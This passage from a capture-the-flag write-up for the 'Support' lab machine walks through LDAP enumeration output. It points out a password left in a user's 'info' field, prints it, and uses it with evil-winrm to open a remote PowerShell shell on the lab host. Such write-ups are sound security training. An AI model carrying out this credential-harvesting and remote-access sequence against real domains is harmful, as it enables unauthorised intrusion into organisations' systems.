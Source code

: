 ```bash
# search reference
ref: ldap://ForestDnsZones.support.htb/DC=ForestDnsZones,DC=support,DC=htb

# search reference
ref: ldap://DomainDnsZones.support.htb/DC=DomainDnsZones,DC=support,DC=htb

# search reference
ref: ldap://support.htb/CN=Configuration,DC=support,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3

```

At first glance, the LDAP query returns what looks like just a **bunch of generic information**. Nothing too special...

But then — wait a second — did you notice the **`info`** field?

In “info”, we found support’s PASSWORD:

```bash
Ironside47pleasure40Watchful
```

We’ve got a **username** and a **password** — finally, our first set of valid credentials.

At this point, we could restart our enumeration phase, maybe even run **BloodHound** to gather as much information as possible about the environment and uncover any exploitable relationships...

But hey — this is a **CTF**, after all. So you know what that means:

👉 Let’s go straight for a **shell**!


```bash
┌──(uriel-sg㉿Uriel-SG)-[~/Scrivania/support]
└─$ evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> 

```
